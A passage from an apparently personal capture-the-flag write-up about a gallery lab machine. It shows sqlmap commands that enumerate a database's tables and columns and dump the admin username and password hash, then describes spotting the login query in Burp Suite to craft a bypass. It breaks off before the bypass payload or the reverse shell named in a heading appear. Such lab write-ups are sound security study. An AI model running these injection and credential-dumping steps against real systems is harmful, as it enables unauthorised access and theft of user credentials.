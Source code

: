 ```shell
$ sqlmap -r login.request -D gallery_db --tables

[4 tables]
+-------------+
| album_list  |
| images      |
| system_info |
| users       |
+-------------+
```

**gallery_db** has 4 tables. the useful one might be the **user** table.

```shell
$ sqlmap -r login.request -D gallery_db -T users --columns

[10 columns]
+--------------+--------------+
| Column       | Type         |
+--------------+--------------+
| avatar       | text         |
| date_added   | datetime     |
| date_updated | datetime     |
| firstname    | varchar(250) |
| id           | int(50)      |
| last_login   | datetime     |
| lastname     | varchar(250) |
| password     | text         |
| type         | tinyint(1)   |
| username     | text         |
+--------------+--------------+

```

i want to dump the columns *username* and *password*

```shell
$ sqlmap -r login.request -D gallery_db -T users -C username,password --dump

[1 entry]
+----------+----------------------------------+
| username | password                         |
+----------+----------------------------------+
| admin    | a228b12a08b6527e7978cbe5d914531c |
+----------+----------------------------------+
```
### SQLI and Reverse Shell
i got the password hash of admin, that also was a question in the box description. but unfortunately i could not crack the hash.

![image](/images/Pasted image 20230822222301.png)

i went back to the login page and checked the response of a failed login attempt with *burp suite*. and i saw the actual query that gets called. so i could forge a payload that lets me bypass it.
